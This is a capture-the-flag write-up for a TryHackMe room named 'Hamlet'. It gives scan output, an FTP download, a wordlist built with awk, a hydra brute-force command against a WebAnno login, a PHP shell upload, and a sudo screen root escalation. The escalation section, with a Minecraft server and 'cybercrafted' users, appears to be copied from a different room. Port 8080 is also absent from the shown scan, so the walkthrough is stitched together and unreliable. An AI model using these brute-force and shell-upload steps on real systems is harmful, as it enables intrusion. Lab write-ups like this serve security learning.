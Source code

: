 ```yaml
---
title: Hamlet
date: 2022-01-15 11:11:11 +/-TTTT
categories: [writeup, tryhackme]
tags: []
---
```


|Machine Name | Date | Level | Type |
|-------------|-------|------|------|
| Hamlet | 2022-01-15 | Medium | ctf |

![infocard](https://tryhackme-images.s3.amazonaws.com/room-icons/7c3ed8c81855bd05c6e7c8815ac26f37.png)

A Shakespeare/Hamlet-inspired room in which you will explore an uncommon web application used in linguistic/NLP research.

## Reconnaissance

As always start with the Nmap.

```
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-15 07:53 EST
Nmap scan report for 10.10.191.7
Host is up (0.21s latency).

PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rwxr-xr-x    1 0        0             113 Sep 15 14:45 password-policy.md
|_-rw-r--r--    1 0        0            1425 Sep 15 14:48 ufw.status
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.57.82
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a0:ef:4c:32:28:a6:4c:7f:60:d6:a6:63:32:ac:ab:27 (RSA)
|   256 5a:6d:1a:39:97:00:be:c7:10:6e:36:5c:7f:ca:dc:b2 (ECDSA)
|_  256 0b:77:40:b2:cc:30:8d:8e:45:51:fa:12:7c:e2:95:c7 (ED25519)
80/tcp   open  http       lighttpd 1.4.45
|_http-server-header: lighttpd/1.4.45
|_http-title: Hamlet Annotation Project
501/tcp  open  tcpwrapped
8000/tcp open  http       Apache httpd 2.4.48 ((Debian))
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.62 seconds


```

Here we got two http service running on web server, port 501 is open nmap doesn't ensure what service is running on that port. we also have a ftp server and ssh service running.

Lets start with the ftp server .

we can login with anonymous credential. but i face some problem to list file dont know why this is happend. lets download all files recursively in ftp server.

`wget -r 'ftp://anonymous:anonymous@10.10.113.63'`

we got `password-policy.md` and `ufw.status`.

*password-policy.md*

```
# Password Policy

## WebAnno

New passwords should be:

- lowercase
- between 12 and 14 characters long

```

password polycy used to set password. 


### HTTP

when we goto website `http://10.10.113.63` we provided a static web page.

![indexpage](/assets/thm/hamlet/indexpage.png)

here we got some usernames and email address.
`Michael`
`ghost`
`ghost@webanno.hamlet.thm`

Nothing more interested on this page.

### HTTP PORT 8000

This webpage only display the  `hamlet.txt`. but when we see source code of the page we get interesting endpoint.

`<iframe style="width:100%; height:100%" src="/repository/project/0/document/0/source/hamlet.txt"></iframe>`

I tried some ssrf and lfi payload here but doesn't succeed.


### HTTP PORT 8080

On port 8080 we get webanno login page. usually i dont try sql injection if web page is not custome build. I tried some common username:password pair but failed.

In ftp server get the password policy in file `password-policy.md`. and on port 80 we got `hamlet.txt` . so lets try to create password wordlist using this two things.

according to `password-policy.md` password shold be *lowercase* and 12 to 14 letters long.

here you can use tool like `cewl` but i just use the awk to filter word which is longer than 11 characters.

```
awk -F ' ' '{for(i=1;i<=NF;i++){ if(length($i)>=11) print $i }}' hamlet.txt > wordlist.lst

```

Now we have a list of user from port 80 index page. lets try to bruteforce password with hydra.

```
hydra -L user.txt -P wordlist.lst $ip -s 8080 http-post-form "/login.html?-1.-loginForm:urlfragment=&username=^^USER^
^&password=^^PASS^^:Login failed" -vV -t 1
```

keep in mind you have to reduce thread to 1 otherwise machine will crash or didn't show you result.

we got credential for : `g***t: v**********d`



## Gaining Access

Login into webanno using credentials.

I spend some time to check if we can levarage any functionality of webanno. after some enumeration and reading some webanno docs i found out that we can upload file for anotation.

so lets upload a php shell and figure how to execute that shell.

to upload a shell go to `project >> hamlet >> Documents` and upload php shell file.

Now we have to find a way to execute the shell.

In source code `http://10.10.113.63:8000/` we found `iframe` tag which include the hammer.txt file. same hammer.txt file we can see in hamlet annotation project. so lets try to execute php shell from `iframe` tag.

Open the dev tool and change the  `repository/project/0/document/0/source/hamlet.txt` to `repository/project/0/document/1/source/shell.php` and we get shell.

## Privilege Escalation

### Escalate from xxultimatecreeperxx to cybercrafted

After downloading `linpeas.sh` to the target machine and enumerating it for some time I find Minecraft server on the machine. 

this Minecraft server has a plugin called `loginsystem` which has a log file called `log.txt`. 

`/opt/mincraft/cybercrafted/plugins/LoginSystem/log.txt`

From this file, we get the password for `cybercrafted` user.


`cybercrafted:J*****************k`

Log in as `cybercrafted`.

Now we have a password for `cybercrafted`.

### Escalate from cybercrafted to root

Did some enumeration on the box and found out that `cybercrafted` can run `/usr/bin/screen` as root.

```
Matching Defaults entries for cybercrafted on cybercrafted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cybercrafted may run the following commands on cybercrafted:
    (root) /usr/bin/screen -r cybercrafted


```
`screen` is used to start a screen session or open any number of the window inside a session. 

`/usr/bin/screen -r cybercrafted` here `-r` used to resume the screen session of user `cybercrafted`.

After some research, I found out that we can create a new window with a shell using `screen`.

`sudo -u /usr/bin/screen -r cybercrafted`

it attaches the screen of `cybercrafted` .
then use shortcut `ctrl+a+c` and we get a root shell.

`ctrl+a+c` is used to create a new window with shell. and this program is running as root we get root window shell.

![root](/assets/thm/cybercrafted/root.png)


## Resources

[How To Use Linux Screen](https://linuxize.com/post/how-to-use-linux-screen/)